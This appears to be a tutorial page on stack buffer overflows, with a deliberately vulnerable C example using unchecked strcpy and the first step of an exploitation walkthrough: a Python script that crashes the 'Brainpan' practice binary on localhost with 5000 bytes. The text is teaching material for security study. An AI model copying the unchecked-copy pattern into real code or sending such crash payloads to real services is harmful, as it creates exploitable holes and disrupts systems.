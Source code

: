 ## Stack Overflows

## What is a Stack Buffer Overflow?

A stack buffer overflow is a type of vulnerability that occurs when a program writes more data to a buffer on the stack than it was originally allocated to hold. Buffers are blocks of memory, typically arrays or character strings, that store temporary data. When a program doesn’t check the amount of data written to a buffer, it can overwrite other parts of the stack, which can cause unintended behavior, crashes, or security vulnerabilities.

In short, a stack buffer overflow happens when the data you’re writing exceeds the buffer’s allocated memory and begins to overwrite adjacent memory, potentially including the return address and local variables stored on the stack.

### Example of a Stack Buffer Overflow

Consider this C code:

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *str) {
    char buffer[10];  // Allocate a small buffer of 10 bytes
    strcpy(buffer, str);  // Copy input into buffer without checking size
}

int main() {
    char *long_string = "This string is too long for the buffer!";
    vulnerable_function(long_string);
    return 0;
}
```

#### In this example:

1. The function vulnerable_function creates a buffer on the stack that can hold only 10 bytes.
2. The strcpy function copies the contents of long_string into buffer.
3. Since long_string is longer than 10 bytes, strcpy writes beyond the boundaries of buffer, causing a stack buffer overflow.

### Why Is a Stack Buffer Overflow Dangerous?

When the data overflows past the buffer, it overwrites nearby memory on the stack, which can include:

- Return addresses: Changing the return address can redirect the program’s execution flow, often to code provided by an attacker.
- Local variables and control structures: This can change the behavior of the function, possibly causing unexpected actions or program crashes.

### Exploiting a Stack Buffer Overflow

Attackers can exploit stack buffer overflows to inject and execute malicious code. Let’s break down how:

1. Controlling the Return Address: By carefully crafting the overflow data, an attacker can overwrite the return address with the memory address of their own malicious code.
2. Injecting Malicious Code: The attacker can place malicious code (often called shellcode) in memory, usually within the overflowed buffer.
3. Redirecting Execution: When the function returns, instead of returning to the caller, it jumps to the attacker’s code, effectively granting control over the program.

## Example of Exploitation

In this section we are going to exploit a binary called "Brainpan". You can download it here --> .

We have the following exploit template:

### Initial Crash

```py
import struct
import socket

TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 5000  # change me

payload = b"A" * CRASH_LEN

with socket.create_connection(target) as sock:
    sock.recv(512) 

    sent = sock.send(payload)
    print(f"sent {sent} bytes")

```
